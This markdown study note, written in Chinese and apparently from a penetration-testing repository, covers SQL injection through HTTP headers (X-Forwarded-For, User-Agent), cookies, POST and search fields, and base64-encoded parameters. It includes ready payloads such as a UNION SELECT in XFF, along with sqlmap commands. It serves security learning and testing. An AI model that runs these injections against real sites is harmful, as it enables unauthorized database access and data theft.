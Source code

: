 # 其他注入法(下)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 HTTP注入 [(详情)](https://www.cnblogs.com/softidea/p/5325079.html)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 利用HTTP协议头部未进行过滤检查进行注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: XFF、UserAgent、[Cookie](https://www.jianshu.com/p/186ed9bf2951)(头文件)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1.X-Forwarded-For简称XFF头，它代表了客户端的真实IP，通过修改他的值就可以伪造客户端IP
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;利用burpsuite的抓包及Repeater模块进行测试攻击，或者抓包头部信息利用SQLMap进行检测攻击

```
    1.1 利用burpsuite+Repeater模块进行XFF检测攻击
        
        查库: X-Forwarded-for: 127.0.0.1' union select 1,2,database()#,常规查询手法
    1.2 利用burpsuite+sqlmap组合检测注入
        测试注入点，发现XFF返回IP，那么可能存在XFF注入，burp抓包，添加x-forwarded-for:*，将raw的信息存为txt文件
        利用burpsuite抓包出文件保存到 txt 文本中，再利用 SQLMap -r 文件 -D 等常规操作
      
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2.User-agent记录软件程序的客户端信息的HTTP头字段，他可以用来统计目标和违规协议
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[报错注入法](https://www.jianshu.com/p/ee7f660295b1)、[延时注入法](https://www.freebuf.com/articles/web/105124.html)、SQLMap导入文件法
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 COOKIE注入(参数传递类型)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:php中，使用超全局变 $_GET，$_POST来接受参数。 asp中，使用Request.QueryString (GET)或 Request.Form (POST)来接收页面提交的参数值，程序不是先取GET中的数据，没有再取POST中的数据，还会去取Cookies中的数据，一般写防护的会忽略cookie防御
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: [cookie中转工具实战](https://blog.51cto.com/yttitan/1562382)、[cookie手注](https://www.cnblogs.com/sun-sunshine123/p/6861677.html)
```html
    javascript:alert（document.ｃookie ="id="+escape("1")); 回车弹出对话框内容为1
    刷新一下网页，如果正常显示，表示该页是用Request("ID")这样的格式收集数据，这种格式就可以试Cookies注入了
    
    SQLMap:  sqlmap.py -u "http://172.16.12.2/test.php" --cookie "id=1" --level 2  --level>2才会检查cookie
    
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 POST注入、搜索型注入
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[手工+SQLMap实战](https://www.jianshu.com/p/26b1576b37bb)、[Burpsuite+SQLMap实战](https://blog.csdn.net/u011781521/article/details/58594941)


```
    搜索型注入核心语法:'and 1=1 and '%'='
                    %' and 1=1--'
                    %' and 1=1 and '%'='，在搜索框内进行测试
    SQLMap则是先抓包成文件，利用 sqlmap -r 文件 -p

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 [编码参数(base64)](https://blog.csdn.net/qq_42357070/article/details/81512470)

```
    sqlmap -u "URL" --tamper base64encode --level=3 --current-db
    如果手工注入，配合小葵万能编码转换时，是要将整个参数和注入语句一起编码代入
```
















